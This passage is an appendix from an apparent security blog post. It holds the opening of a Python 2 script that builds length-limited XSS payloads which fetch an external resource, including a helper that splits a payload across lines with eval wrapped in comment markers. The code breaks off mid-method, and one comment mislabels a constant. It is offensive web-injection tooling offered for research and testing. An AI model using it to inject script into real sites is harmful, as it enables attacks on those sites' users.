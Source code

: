 # Appendix: Helper script

Use this script to generate some of the above types of payloads, but with the URL of your external resource to fetch. You can also adjust the character limit. This blog post assumes it's called `fetch_helpers.py`.

The script may have been updated, check [the latest version](https://github.com/aurainfosec/xss_payloads/blob/master/fetch_helpers.py).

```python
#!/usr/bin/env python2

import sys
import argparse
import string
import logging
import re

BLACK, RED, GREEN, YELLOW, BLUE, MAGENTA, CYAN, WHITE = range(8)

class ColorFormatter(logging.Formatter):
    COLORS = {
        'DEBUG'    : BLUE,
        'INFO'     : WHITE,
        'WARNING'  : YELLOW,
        'ERROR'    : RED,
        'CRITICAL' : RED,
    }
    def format(self, record):
        return '\x1b[1;3%dm%s\x1b[0m' % (
                self.COLORS[record.levelname],
                logging.Formatter.format(self,record))

MAX_JS_INT = 9007199254740991 # Number.MIN_SAFE_INTEGER

class Payload:
    def __init__(self, raw, to_string):
        self.raw = raw
        self.to_string = to_string
    
    def __len__(self):
        return len(self.raw)
    
    def __str__(self):
        return self.raw
    
    def append(self, payload):
        self.raw += payload
    
    def prepend(self, payload):
        self.raw = payload + self.raw
    
    def as_split_to_len(self, quote, max_len, **kwargs):
        if max_len < 10:
            # need to fit at least */eval/*
            logger.error("This encoding requires at least 10 characters per line")
            return ''
        
        logger.warn("This encoding won't work if the content between any of the separate split payloads contains multiline comments /* ... */")
        prefix = '*/'
        suffix = '/*'
        dummy_var = 'X'
```